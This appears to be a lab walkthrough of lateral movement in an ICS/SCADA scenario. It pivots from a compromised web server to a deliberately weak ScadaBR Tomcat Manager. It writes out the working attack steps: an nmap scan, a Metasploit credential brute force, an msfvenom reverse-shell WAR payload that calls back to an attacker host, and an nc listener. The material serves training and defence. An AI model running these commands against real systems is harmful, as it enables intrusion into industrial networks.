 # Lateral movement

The attacker exploits a vulnerability in a remote service, allowing the attack to spread to the ICS network (this could be SCADA bridging IT and OT environments). \[T0866]

T0866 -> <https://attack.mitre.org/techniques/T0866/> 

After getting inside the web application machine.

**Lateral Movement via Apache Manager Weak Credentials (CVE-2009-3548)**

Once inside the vulnerable web server machine, the attacker's goal is to move laterally to another machine within the same network. In this case, the attacker is targeting the Apache Tomcat Manager in **ScadaBR**, which was purposely set to be vulnerable due to weak credentials (CVE-2009-3548).


### **Step-by-Step:**

1. **Obtaining a Shell Access:**

- After gaining initial access using the vulnerability in the web server, the attacker establishes a shell session using **Meterpreter** (last phase).

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfDN4B2F3RJ5vrYTmrgI4sO86pl6MTybgV100h2dIL6p-MMQ_BLAEcTE1751LON5qQI6oSAezsgwMdGYV2PUwTAItqMltCzdaHJ7OIPvbuA0OT5WA6LWvxqebFExfrIizhWtOlLi--yj7ud4fWW4fR8cstk?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 7:** Log4Shell exploit execution with successful remote execution.

2\. **Network Enumeration:**

- The attacker runs network commands to identify the IP configuration and other network devices.

- Result shows that the machine has two interfaces (`eth0` and `eth1`), with `eth1` assigned the IP `192.168.51.2/24 and a network that can be scanned`.

```
# checking interfaces
ip a # scanning the discovered network`
nmap 192.168.51.2/24

```
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXd63FP86iRmWYrAPos379ndo4qOAnoJ-chUJyjM66BotSj0tOPdrol1WJidHA6_leya58HSuX8PcmqVqvtBnslAdM9W4pwEBJ_xXw7h9WK_T3EpNfoLcW7P-ojVX1d7oXmKcqWqUxVM1U79Tgq-mFV98L-B?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 8:** Network results (discovery of 192.168.51.5 machine).

3.  **Exploiting Tomcat Manager (CVE-2009-3548):**

****![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXd8SyfUeVMDbSflFyh2-XqQ11oejRJAtcClA3Lq1PorrhafwMhP77hKxtS3PpQzd2R4iTTaxxEIaQ6ZjOws-8hzM0_bdVOFVmJNmniIgj87-YdD6YhwP5bcAPbbde6J84DMd3ZCIRqiySqcdXUve6QaUIJ1?key=ZVE4yllmhIbKOidz4k1V_g)****

**Img 9:** Tomcat server at 192.168.51.5:9090.

- The attacker targets the **Tomcat Manager** running on `192.168.51.5:9090/manager/html`.

- Using **Metasploit's** `scanner/http/tomcat_mgr_login` **module**, the attacker brute-forces the default credentials (`admin:admin`).

```
# step 1
sudo msfconsole

# step 2
use scanner/http/tomcat\_mgr\_login  

# step 3
setg RHOSTS \<target-ip>  `# 10.208.89.15 or 192.168.51.5 if in M1
setg RPORT \<target-port> # 9090
setg TARGETURI \<target url> # /manager/html

#step 4
exploit

```
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe2qMuFXGGOEA5RLTLO3hvakHwZkDHRrW2wLG-RKIth0wwptoNdUCOYtcl5R6WzPphk4UHR8uXagBMEnPQReQx0GF_5MkTtFJBley6-CWoAXhHMvm1fEzhzuOIIrB4uFDV9mLOn8AmnwdRHAboCsRSo-bje?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 10:** Tomcat server brute force attack at 192.168.51.5:9090/manager.html and discovery of credentials (admin:admin).

4\. **Crafting Malicious WAR File for Remote Code Execution (RCE):**

Once access is gained to the **Tomcat Manager**, the attacker uploads a malicious WAR file.

- The attacker uses **msfvenom** to create a malicious **WAR** file:

- The payload is configured to connect back to the attacker's listener on port 443 and on the M1 machine.
```
# step 1

sudo msfvenom -p java/shell\_reverse\_tcp LHOST=192.168.51.2 LPORT=443 -f war -o /tmp/shell.war

# step 2 

# upload the genereted shell.war file to the tomcat manager
```

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeMselmAuZKxQLJQLmFgDrG5wqdsNGCTbtwr8PP92Z2dyZX73aEJ2vO_OZKHF_SPdOXNqjboCk8v0JH7si-tl9YgQ86h_Zcm_rNrc_N48-4lBq7X0dkWzrBiW9dBZR-GjKsjzCbGTJPRqFgJnbQuV0xBJ0y?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 11:** Malicious WAR file (shell.war) uploaded in Tomcat server by the manager URL.

5\. **Triggering the Exploit and Establishing Reverse Shell**

- The attacker sets up a listener on the attacker's machine at `192.168.51.2`.

- The attacker triggers the RCE by accessing http\://10.208.89.15:9090/shell  or http\://192.168.51.5:9090/shell

```
# step 1

nc -lvnp 443

# step 2

# access_ http\://10.208.89.15:9090/shell |

```

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXf6eQQLicqhkkjPsZ1Je1NiC8hpKTLpNCdc1GRLxNMMXYNad_68B4WBEoKos_53Zbgrb_I60DrLctTzfd6L1ERB7IQeD4McI0JpC4e_m6QO79ycWOO4pyYjyLwMdeH12I92Rp6rhiDIw_ClVMS9vwgCjlA?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 12:** RCE execution and successful invasion of M2.

